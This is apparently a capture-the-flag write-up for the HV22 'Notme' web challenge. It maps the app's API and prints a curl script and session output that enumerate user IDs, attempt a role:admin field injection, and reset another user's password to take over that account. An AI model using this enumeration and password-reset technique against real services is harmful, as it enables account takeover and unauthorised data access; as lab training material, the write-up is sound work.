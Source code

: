 CSS: ../meta/avenir-white.css

[← Day 09](../day09/) / [↑ TOC](../README.md) / [→ Day 11](../day11/)


# Day 10 / HV22.10 Notme



## Challenge

* Author: HaCk0
* Tags:   `#web-security`
* Level:  medium

Santa brings you another free gift! We are happy to announce a free note taking
webapp for everybody. No account name restriction, no filtering, no restrictions
and the most important thing: no bugs! Because it cannot be hacked, Santa
decided to name it Notme = Not me you can hack!

Or can you?



## Solution

The challenge gave us a note taking web service ...

![](screenNotme.png)

A proxy was used to map out end points and API of the web app ...

```
Procedures:

# Open page
GET  /api/user/me                        >   404 JSON msg:"No loggedin User found"

# Register user
POST /api/register  username,password    >   200 JSON id(int),username,password(hash),role,updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [empty list]

# Login
POST /api/login     username,password    >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Change password
POST /api/User/1    password             >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Note create
POST /api/note/new  note                 >   200 JSON id(int),note,userId(int),updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [ id(int),note,userId(int),createAt,updatedAt ]

# Open note
GET  /api/note/1                         >   200 JSON id(int),note,userId(int),createdAt,updatedAt
# Accessing a note-id you don't own      >   404 JSON msg:"not your note"
# Accessing a non-existing note-id       >   404 JSON msg:"note not found"
# Throws 500 if not int or 'all'

# Update note
POST /api/note/update id(int),note,userId(int),createdAt,updatedAt
                                         >   200 JSON msg:"Updated"
GET  /api/note/all                       >   200 JSON [ id(int),note,userId,createAt,updatedAt ]

# Logout
GET  /api/user/logout                    >   200 JSON msg:"logged out"

# Query user
GET  /api/User/1                         >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
# Accessing another user id              >   ??? JSON msg:"Cannot access user"
# Value can be 'all'                     >   ??? JSON msg:"Cannot access user"
```

Based on this mapping a script was written to interact with the web app from
the command line. This gives more precise control over input data and the option
to automate procedures.

Towards the end of the script is the code for general interaction. Above that
is more specific code to search for notes by _note-id_ and to search for users
by _user-id_. The search routines simply try out every user-id between 0 and an
upper limit given as argument.

``` sh
#!/bin/bash

# curl(1) command with cookie handling
curlCmd="curl -b ./cookie -c ./cookie"
gimmiJson='Content-Type: application/json'

serverAddr="774b2d42-b4ba-4162-9b2e-0bfd5c9a3448.idocker.vuln.land"
loginUrl="https://$serverAddr/api/login"
noteUrl="https://$serverAddr/api/note"
userUrl="https://$serverAddr/api/user"

# Search notes: the secondary arg is the upper limit for note-id
if [ "$1" = "searchNote" ]; then
    upperLimitId=$2
    echo "Login ..."
    $curlCmd -X POST $loginUrl -H "$gimmiJson" -d '{"username":"leeloo","password":"multi"}'
    printf '\n\n'  # Fixes missing linefeed
    
    echo "Search Note ..."
    for i in $(seq 0 $upperLimitId); do
        $curlCmd $noteUrl/$i -H "$gimmiJson"
        printf '\n'
    done
    printf '\n'
    exit 0
fi

# Search users: the secondary arg is the upper limit for user-id
if [ "$1" = "searchUser" ]; then
    upperLimitId=$2
    echo "Login ..."
    $curlCmd -X POST $loginUrl -H "$gimmiJson" -d '{"username":"leeloo","password":"pass"}'
    printf '\n\n' 

    echo "Search other user ids ..."
    for i in $(seq 0 $upperLimitId); do
        $curlCmd -X POST $userUrl/$i -H "$gimmiJson" -d '{"id":0,"username":"leeloo","password":"pass","role":"admin"}'
        printf '\n'
    done
    printf '\n'
    exit 0
fi

# Manual POST: $1='post', $2=<path>, $3=<JSON>
if [ "$1" = "post" ]; then
    $curlCmd -L -X POST https://$serverAddr/$2 -H "$gimmiJson" -d "$3"
    printf '\n'
    exit 0
fi

# Manual GET: $1=<path>
$curlCmd -L https://$serverAddr/$1
printf '\n'
```

The following command sequence demonstrates the interaction with the web app ... 

```sh
$ ./notme.sh post api/register '{"username":"leeloo","password":"multipass"}' 
{"id":1,"username":"leeloo","password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c","role":"user","updatedAt":"2022-12-14T16:20:44.888Z","createdAt":"2022-12-14T16:20:44.888Z"}

$ ./notme.sh post api/login '{"username":"leeloo","password":"multipass"}' 
{"id":1,"role":"user","username":"leeloo","password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:20:44.888Z"}

$ ./notme.sh api/user/1
{"id":1,"role":"user","username":"leeloo","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:22:58.013Z"}

$ ./notme.sh api/note/all
[]

$ ./notme.sh post api/note/new '{"note":"Oh my note!"}'
{"id":1,"note":"Oh my note!","userId":1,"updatedAt":"2022-12-14T16:28:19.937Z","createdAt":"2022-12-14T16:28:19.937Z"}

$ ./notme.sh post api/note/new '{"note":"Another note!"}'
{"id":2,"note":"Another note!","userId":1,"updatedAt":"2022-12-14T16:28:50.999Z","createdAt":"2022-12-14T16:28:50.999Z"}

$ ./notme.sh api/note/all
[{"id":1,"note":"Oh my note!","userId":1,"createdAt":"2022-12-14T16:28:19.937Z","updatedAt":"2022-12-14T16:28:19.937Z"},{"id":2,"note":"Another note!","userId":1,"createdAt":"2022-12-14T16:28:50.999Z","updatedAt":"2022-12-14T16:28:50.999Z"}]

$ ./notme.sh api/note/1
{"id":1,"note":"Oh my note!","userId":1,"createdAt":"2022-12-14T16:28:19.937Z","updatedAt":"2022-12-14T16:28:19.937Z"}
```

To find the flag it was first necessary to find another user. This was done by
automating the interaction with the web app and using its response messages to
determine whether an user-id existed or not ...

```sh
$ ./notme.sh searchUser 4242
Login ...
{"id":1,"role":"user","username":"leeloo","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:22:58.013Z"}

Search other user ids ...
{"msg":"User with ID 0 not found!"}
{"id":1,"role":"user","username":"leeloo","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:22:58.013Z"}
{"msg":"User with ID 2 not found!"}
{"msg":"User with ID 3 not found!"}
{"msg":"User with ID 4 not found!"}
{"msg":"User with ID 5 not found!"}
[...]
{"msg":"User with ID 1334 not found!"}
{"msg":"User with ID 1335 not found!"}
{"msg":"User with ID 1336 not found!"}
{"id":1337,"role":"user","username":"Santa","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:18:07.844Z","updatedAt":"2022-12-14T16:24:07.567Z"}
{"msg":"User with ID 1338 not found!"}
{"msg":"User with ID 1339 not found!"}
{"msg":"User with ID 1340 not found!"}
[...]
```

Since the passwords are stored in hashed form, they cannot be read out. To
circumvent this problem the newly found user-id was used to reset that user's
password. After that it was possible to login as that user and read out his data
...

```sh
$ ./notme.sh api/user/1337
{"msg":"Cannot access user"}

$ ./notme.sh post api/user/1337 '{"password":"gimmiflag"}'
{"id":1337,"role":"user","username":"Santa","password":"e7468bd6bdddf3cee21cda080010c8ab104a1985b60f5b254bf0c2e26c49dab8","createdAt":"2022-12-14T16:18:07.844Z","updatedAt":"2022-12-14T16:36:13.330Z"}

$ ./notme.sh post api/login '{"username":"Santa","password":"gimmiflag"}'
{"id":1337,"role":"user","username":"Santa","password":"e7468bd6bdddf3cee21cda080010c8ab104a1985b60f5b254bf0c2e26c49dab8","createdAt":"2022-12-14T16:18:07.844Z","updatedAt":"2022-12-14T16:36:13.330Z"}

$ ./notme.sh api/note/all
[{"id":1337,"note":"HV22{Sql1_is_An_0Ld_Cr4Ft}","userId":1337,"createdAt":"2022-12-14T16:18:07.852Z","updatedAt":"2022-12-14T16:18:07.852Z"}]
```

Although the flag says that "SQLi is an old craft", I didn't use any SQL
injection techniques. This way of solving the challenge was probably unintended.

--------------------------------------------------------------------------------

Flag: `HV22{Sql1_is_An_0Ld_Cr4Ft}`

[← Day 09](../day09/) / [↑ TOC](../README.md) / [→ Day 11](../day11/)
